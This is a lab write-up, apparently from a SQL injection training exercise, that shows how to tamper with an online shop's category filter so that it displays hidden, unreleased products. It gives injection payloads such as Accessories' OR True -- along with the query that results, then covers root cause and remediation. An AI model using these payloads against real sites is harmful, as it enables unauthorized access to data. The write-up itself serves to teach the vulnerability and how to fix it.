

# SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data


## Objective

Exploit a SQL injection vulnerability in the product category filter to retrieve hidden products that are not normally displayed.

---

## Recon & Observations

- application is an categorized online shop.
- Selecting a category changes the URL parameter:

```http
/filter?category=[categoty name]
```

- The value of the `category` parameter seems to be use in DB.

---

## Vulnerability Analysis

The application fails to properly sanitize user-controlled input before using it in a SQL query.

The original query is : (Hint)

```sql
SELECT * FROM products
WHERE category = 'Accessories'
AND released = 1
```

The `released = 1` condition is used to hide unreleased products.

---

## Exploitation Steps

### 1. Identify User Input

Observed that the `category` parameter controls which products are displayed.

Example request:

```http
GET /filter?category=Accessories
```

### 2. Test for SQL Injection

Modified the category parameter to:

```sql
Accessories'--
```


The application responded differently, indicating that the input was affecting the SQL query.
\
Unreleased item from the same category retuned.

### 3. Manipulate the WHERE Clause

Injected:

```sql
Accessories' OR True --
```
Also we could use evey true ciondition intesad of True
\

Resulting query:

```sql
SELECT * FROM products
WHERE category = 'Accessories'OR True --'
AND released = 1
```

Sience WHERE is always true, it returns every categoty and released or unreleased items.
The comment sequence (`--`) causes the remainder of the query to be ignored.

### 4. Retrieve Hidden Data

The application displayed products that were previously hidden, including unreleased items.


## Result

Successfully retrieved hidden and unreleased products by manipulating the SQL query through the category parameter.


## Security Impact

An attacker could bypass application restrictions and gain access to information that should not be publicly available.

Depending on the application, similar vulnerabilities may lead to:

- Authentication bypass
- Database enumeration
- Data modification or deletion


## Root Cause

The application directly incorporates user input into SQL queries without proper validation or parameterized statements.

As a result, attackers can alter the logic of the database query.


## Remediation

- Use parameterized queries (prepared statements).
- Never concatenate user input into SQL statements.
- Apply server-side input validation.
- Implement least-privilege database permissions.


## Lessons Learned

- SQL injection can be used to modify application logic, not just extract data.
- User-controlled parameters should never be trusted inside database queries.